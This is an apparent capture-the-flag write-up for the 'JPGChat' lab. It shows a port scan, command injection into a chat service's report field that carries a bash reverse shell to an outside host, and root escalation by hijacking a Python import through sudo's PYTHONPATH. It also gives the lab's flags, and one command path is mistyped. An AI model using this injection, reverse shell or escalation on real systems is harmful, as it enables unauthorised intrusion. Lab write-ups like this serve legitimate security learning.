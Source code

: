 > JPGChat

**export IP=10.10.142.222**

# Nmap

nmap -sC -sV -T4 -Pn -p- -vv -oN nmap/initial $IP

```
22/tcp    open     ssh          syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
3000/tcp
```

As per the hint, looking for JPChat in github gives us the code.

nc $IP 3000

```
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

We can input a basic bash shell in there.

## Payload

```
[REPORT] 
this report will be read by Mozzie-jpg
your name:
troy;bash -i >& /dev/tcp/10.8.107.21/1234 0>&1;
your report:
hi
troy
]
```

And we have a reverse shell!

# user.txt

```
JPC{487030410a543503cbb59ece16178318}
```

# Privilege Escalation

sudo -l

```
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH => Looks odd?

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

## test_module.py

```
from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

Unfortunately this is not writable but let's check the compare.py. 

find / -type f 2>/dev/null | grep compare.py

```
/usr/lib/python3.5/compare.py
/usr/lib/python2.7/dist-packages/lxml/doctestcompare.pyc
/usr/lib/python2.7/dist-packages/lxml/doctestcompare.py
```

Let's creare compare.py in /dev/shm and change the python path to /dev/shm while executing it.

sudo PYTHONPATH=/dev/shm/ /usr/bin/python3 /lopment/test_module.py

And we are root!

# root.txt

```
JPC{665b7f2e59cf44763e5a7f070b081b0a}
```